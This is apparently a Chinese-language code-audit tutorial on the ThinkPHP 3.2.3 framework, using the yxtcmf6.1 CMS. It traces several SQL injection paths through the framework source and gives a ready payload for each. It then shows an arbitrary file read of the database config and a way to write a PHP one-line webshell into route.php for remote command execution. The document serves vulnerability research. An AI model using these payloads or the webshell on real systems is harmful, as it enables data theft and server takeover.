


## 前言
由于最近审漏洞很多白帽子交来的是thinkphp的sql注入，手法很简单，但是还是想以代码审计的方式去研究一下ThinkPHP的相关漏洞。在选择thinkphp框架的时候，也想了很久很久，最后还是以3.2.3为例，顺便学学代码审计相关的知识。
本次选择的CMS是 `yxtcmf6.1` ，它是19年3月发布且基于thinkphp3.2.3开发的cms，这个对于php代码审计小白是比较友好的。
## 审计思路
这个CMS是采用MVC架构开发的，首先要了解MVC架构以及文件结构，需要知道不同的页面对应的文件位置

- M(Model) : 应用程序用于处理数据逻辑的部分，通常模型对象负责在数据库中存取数据
- V(View): 应用程序用于处理数据显示的部分，通常视图是依据模型创建的
- C(Controller): 应用程序用于处理用户交互的部分，通常控制器负责从视图读取数据（参数），控制用户输入输出，并向模型发送数据

然后需要了解thinkphp3.2.3这个框架，大致过一遍thinkphp3.2.3完全开发手册
最后可以结合静/动态扫描工具再看看

## 了解结构以及路由方式

目录结构中关注Application，因为这个是各种Controller所在的目录，还有相关的配置文件，如路由配置`router.php`(这种文件一般在conf目录下，去找用户自定义的配置文件)

比如这个路由中，user/login/index，（前台首页）

对应的目录就是`${TP}/application/User/Controller/LoginController.class.php`，对应执行的操作就是`index()`函数

## tp3.2.3
### .->where("可控参数")->find()
在这里我使用前台登录处做一个sql注入 => where(payload)->find() 的测试，文件路径在`${TP}/application/User/Controller/LoginController.class.php`
我截取登录的相关代码，如下所示
```php
function ajaxlogin(){
		$username=$_POST['account'];
		$password=$_POST['password'];
  	// 实例化 User
		$users_model=M('Users');
    // 判断输入是否是手机号
		if(preg_match('/^\d+$/', $username)){
			$where['mobile']=$username;
		}else{
      // 判断输入是否是邮件
			 if(strpos($username,"@")>0){
				$where['user_email']=$username;
			}else{
         // 否则user_login 字段为用户名
				$where['user_login']=$username;
			}
    }
  // 数据库交互处
		$result = $users_model->where($where)->find();
```
在这里我调试一波，使用thinkphp中的exp表达式，payload如下
```
account[0]=exp&account[1]=='admin' and updatexml(1,concat(0x23,user(),0x23),1)%23&password=admin&ipForget=true
```
我们主要看exp表达式，查询thinkphp完全开发手册


#### EXP 表达式注入
那么我们的构造的exp表达则为
```php
$where=array("user_login"=> array(
    0 => "exp",
    1 => "='admin' and updatexml(1,concat(0x23,user(),0x23),1)%23")
);
```
跟进调试可以看一下，在这里我们强制进入一下where函数

经过一系列 `if else`最后进入到最后一个else里，这里是指将我们传入的where参数赋值给`$this->options`里的where，`$this->options`是查询表达式参数，里面包含了子语句（如where,limit等等）

return 之后返回到 `$users_model->where($where)`继续调`find()`方法，单步运行，进入find 函数，此时未传入参数，当前参数$options为空，然后在`$this->_parseOptions($options);`方法下，将options 中的where表达式，table，以及model取到，然后进行`$this->db->select($options)`
在这里，我们进入select方法，在这里可以看到我们传入了table，where，model，然后准备进行拼接sql语句，

然后我们进入buildSelectSql函数，来查看到底是怎样拼接的sql语句。
进入之后，可以看到先是计算分页，然后再使用了parseSql函数，再次跟进`$this->parseSql()`函数，其次查看当前`$this->selectSql`

```sql
# $this->selectSql
SELECT%DISTINCT% %FIELD% FROM %TABLE%%FORCE%%JOIN%%WHERE%%GROUP%%HAVING%%ORDER%%LIMIT% %UNION%%LOCK%%COMMENT%
```
在parseSql这个函数中，将会替换SQL语句中的表达式

当我们到parseWhere函数中，我们主要从505行开始看，因为前面一系列判断都是判断是否传入的是字符串，以及定义操作符

从505行开始，开始遍历`$where`这个数组中的值，一直单步走，直到536行

在此，就开始遍历`$where[$key]`，开始拼接sql语句，在这里我们进入`parseWhereItem($this->parseKey($key),$val)`，从这里开始就是形成sql注入的关键所在了

在第570行，当判断是exp表达式的时候，这里就会拼接`$wherestr + $key + $val[1]`，当前$key = `user_login` ，$val[1] = payload，拼接起来这里的$wherestr = `user_login ='admin' and updatexml(1,concat(0x23,user(),0x23),1)#`
    
然后再返回到`parseWhere()`函数中，又会拼接Where字符串，连起来就是`where user_login ='admin' and updatexml(1,concat(0x23,user(),0x23),1)#`    
再返回到`parseSql()`函数中，把最后的sql表达式替换完成，就会发现，exp表达式，直接将sql语句拼接起来了，我们可以看到当前的sql语句是
SELECT * FROM `edu_users` WHERE `user_login` ='admin' and updatexml(1,concat(0x23,user(),0x23),1)# LIMIT 1

就直接完成了exp表达式的sql注入

#### 不成功案例：常规注入
如果我们不使用exp表达式，直接使用传统的sql注入方式，进行注入，可以看到，因为$val = `admin' or '1'='1`不是数组，直接进入else判断

在这里可以看到parseValue()，我们将$value 传入之后，直接会进入第一个条件判断中

这个escapeString函数就不多说了吧。。。单引号被转义，无法闭合，导致无法完成sql注入


### .->find/select/delete("可控参数")
这里find方法传参默认以pk(主键)来查询，这里我们构造一个测试页面，因为我找了一下，没有找到合适可以用于测试的controller，所以自己写一个简单
```php
<?php

namespace User\Controller;

use Common\Controller\MemberbaseController;
class TestController extends MemberbaseController{
    function index(){
        echo "test<br>";
        $id=$I['id'];
        $test = M("test");
        $data = $test->find($id);
        echo $data;
    }
}
```
payload
```sql
id[where]=1 and updatexml(1,concat(0x23,user(),0x23),1)%23 
```

#### id[where]注入
调试一波，强制进入find函数

$options 是一个数组，传入为`{where => "1 and updatexml(1,concat(0x23,user(),0x23),1)%23"}`，然后直接单步走，跳过if 语句（这里等会会细讲，先注意一下）

然后到748行，开始分析表达式，进入`_parseOptions`（这里也强调一下，等会会讲）,一直单步下去，在648行开始，字段类型检验的时候，由于不满足条件，直接就返回$options

然后在这里，就到了回到了select，将解析后的options带入拼接sql语句

在这里我们继续看buildSelectSql()这个函数

分页逻辑不看，继续跟进parseSql里的parseWhere

这里$where是字符串，就直接赋值了，然后就返回了


那么完整的sql如下，完整闭合sql语句，报错注入完成

### ->where("可控参数")->save("可控参数")
我在这里全局搜索，找到了在忘记密码处，满足条件，但是这里需要短信验证码辅助，以及查询是否存在该用户，我这里没有配置短信服务器，以及需要满足where，save可控这一条件，所以我单独把短信验证，以及用户名验证的这一逻辑给注释掉，如果不注释掉查询用户名这一逻辑，直接用exp表达式注入即可。
```php
function repassword(){
		$users_model=M("Users");
		$mobile_verify=$_POST['mobileCode'];
		$password=$_POST['password'];
		$repassword=$_POST['repassword'];
		$mobile=$_POST['tel'];
		$where['mobile']=$mobile;
	    if(strlen($password) < 5 || strlen($password) > 20){
			$result['code']='password';
			$result['success']=false;
			$result['message']="密码长度至少5位，最多20位！";
	    }
//	    elseif($password !=$repassword){
//			$result['code']='repassword';
//			$result['success']=false;
//			$result['message']="两次密码不一致！";
//	    }
//	    elseif($mobile_verify !=$_SESSION['mobile_verify']){
//			$result['code']='mobile_verify';
//			$result['success']=false;
//			$result['message']="手机验证码不正确！";
//		}
//	    elseif(!$users_model->where($where)->find()){
//			$result['code']='user';
//			$result['success']=false;
//			$result['message']="该手机号未注册！";
//		}
        else{
			$data['user_pass']=sp_password($password);
			if($users_model->where($where)->save($data)){
				$result['success']=true;
				unset($_SESSION['mobile_verify']);
			    $result['message']="密码重置成功！";	           
			}else{
				$result['success']=false;
			    $result['message']="密码重置失败";
			}
		}
		$json_string = json_encode($result);
		echo $json_string;  
	}
```
在这里，我们使用payload
#### bind注入
```sql
tel[0]=bind&tel[1]=0 and (updatexml(1,concat(0x3a,(user())),1))%23&password=123456
```

在RegisterController.class.php中设置断点，进入$users_model->where($where)->save($data)

此时传入where的参数$where是一个array

在这里直接赋值给$this.options[where] 然后就直接返回，再调用save函数

再来看save函数，到第416行，开始分析表达式，在这里就直接原封不动地返回了$options[where]

继续向下，走到第451行开始，这里就会拼接sql

在第895行，开始拼接update

然后在第899行，开始拼接where，我们注意在第899行，在进行一系列运算之后，在满足bind的情况下，$wherestr = $key =:0 and ...

最后返回回来的sql语句就如下所示(这个是预编译的sql)


然后在execute这个函数，执行sql操作

最后在绑定参数的时候就将`:0`绑定成了出入的`repassword`语句如下所示，完成报错注入


### ->order("可控参数")->find()
payload
```sql
id=1&order[updatexml(1,concat(0x23,user(),0x23),1)]
```

根据上面的调试过程，我相信大家也懂了，我们主要看parseOrder函数，由于我们传入的参数是order[updatexml(1,concat(0x23,user(),0x23),1)]，order参数是一个数组，key为payload，val为空字符串，在经过690行的处理之后，就会把key和val拼接在一起，然后将$array用,分隔开，赋值给$order

最后返回$order,其实不一定要配置$order的键值为payload，如果order 不为数组，就直接返回$order了
拼接成的sql语句如下


## 案例分析
大概知道了几个tp3.2.3的sql注入后，就可以搜索这些关键词来寻找sql注入
### 后台AD控制器SQL注入
payload
```sql
id=1) and updatexml(1,concat(0x23,user(),0x23),1)%23
```

这里很重要的是where参数虽然可控，但是取参数是使用的I()方法，I()方法在这里强调一下，如果传入的参数是一个数组，（此处传入的不是数组，数组可看示例1），如果使用exp表达式注入，exp 会强行加入一个空格，导致在判断是否是exp表达式时会判断出错，导致无法注入
在这里就是一个整形注入，在这里传入的参数是字符串，则会在第1811行加上key为`_string`

在parseWhere 方法中，whereStr直接拼接了  $this->parseThinkWhere($key,$val);跟进parseThinkWhere，可以看到当key 为_string，$wherestr 直接拼接了$val

最后拼接成的sql如下所示

### 后台任意文件读取
$file 由 $dir 和 $name 拼接而成，$dir 为根路径，$name为传入可控的变量，虽然经过html实体化编码，但是文件名不需要输入<>，所以就没影响，就可以读取任意文件

传入参数`../data/conf/db.conf`，调用如下


### 后台写入文件getshhell
跟着大佬看了一下sp_get_routes这个函数
```php
function sp_get_routes($refresh=false){
	$routes=F("routes");
	
	if( (!empty($routes)||is_array($routes)) && !$refresh){
		return $routes;
	}
  // $routes 是从route表里获取的array
	$routes=M("Route")->where("status=1")->order("listorder asc")->select();
	$all_routes=array();
	$cache_routes=array();
	foreach ($routes as $er){
    // $er['full_url'] 是从$routes里的键值分离出来的
    // $full_url 是$er['full_url']赋值而来
		$full_url=htmlspecialchars_decode($er['full_url']);
			
		// 解析URL
		$info   =  parse_url($full_url);
			
		$path       =   explode("/",$info['path']);
		if(count($path)!=3){//必须是完整 url
			continue;
		}
			
		$module=strtolower($path[0]);
			
		// 解析参数
		$vars = array();
		if(isset($info['query'])) { // 解析地址里面参数 合并到vars
			parse_str($info['query'],$params);
			$vars = array_merge($params,$vars);
		}
			
		$vars_src=$vars;
			
		ksort($vars);
			
		$path=$info['path'];
			
		$full_url=$path.(empty($vars)?"":"?").http_build_query($vars);
			
		$url=$er['url'];
		
		if(strpos($url,':')===false){
		    $cache_routes['static'][$full_url]=$url;
		}else{
		    $cache_routes['dynamic'][$path][]=array("query"=>$vars,"url"=>$url);
		}
    
		// $all_routes 为$full_url赋值	
		$all_routes[$url]=$full_url;
			
	}
	F("routes",$cache_routes);
	$route_dir=SITE_PATH."/data/conf/";
	if(!file_exists($route_dir)){
		mkdir($route_dir);
	}
		
	$route_file=$route_dir."route.php";
	// 再将all_routes 的值写入到$route_file里
	file_put_contents($route_file, "<?php\treturn " . stripslashes(var_export($all_routes, true)) . ";");
	
	return $cache_routes;
	
	
}
```
那么如果能在route表中的full_url字段中插入一句话木马，就可以将其写入到route.php里面了，那么此处可以查看哪里有写入route的方法，全局查看，在admin下的route控制器下就有调用sp_get_routes()

对应的页面如下，且原始网址对应的参数就是full_url，且action对应的后端路由为add_post()函数


我们来随便写一下，来看一下sql语句是怎样的。在insert 函数里，bindParam的时候，传入带有`'`的参数也带入数据库中了。


而此时我们如果执行成功之后，会写入到route.php中，如果能闭合route.php中的单引号，就能getshell了

执行成功之后会返回到route/index中，就会执行sp_get_routes函数
接下来我们分析sp_get_routes函数中能成功写入route.php中的条件，首先`full_url`是原始网址，显示网址是`url`
```php
$full_url=htmlspecialchars_decode($er['full_url']);
			
		// 解析URL
		$info   =  parse_url($full_url);
			// 这里以/ 分割path
		$path       =   explode("/",$info['path']);
      // 如果path不等于3 ，就继续下一个循环
		if(count($path)!=3){//必须是完整 url
			continue;
		}
```
在if条件语句中，我们可以看到解析的full_url要3个，在这里写了一个代码，只要full_url 为 `a/b/c`就可以绕过if语句，执行下面的操作


走到后面可以看到如下代码，只要写入了$all_routes，也不需要<> 等，就可以转换成合法的php代码
```php
$url=$er['url'];
// $all_routes 为$full_url赋值	
$all_routes[$url]=$full_url;
file_put_contents($route_file, "<?php\treturn " . stripslashes(var_export($all_routes, true)) . ";");
```
那么在$url 里写一个一句话木马，就能将其写入到$route_file里了

```php
// 1
full_url: a/b/c
url: aaa' @assert($_REQUEST['cmd']),'
// 2
full_url: a/b/c',@assert($_REQUEST['cmd']),'
url: aaa
```



## 参考链接
[https://blog.csdn.net/qsort_/article/details/109909796](https://blog.csdn.net/qsort_/article/details/109909796)

[https://www.freebuf.com/vuls/236421.html](https://www.freebuf.com/vuls/236421.html)


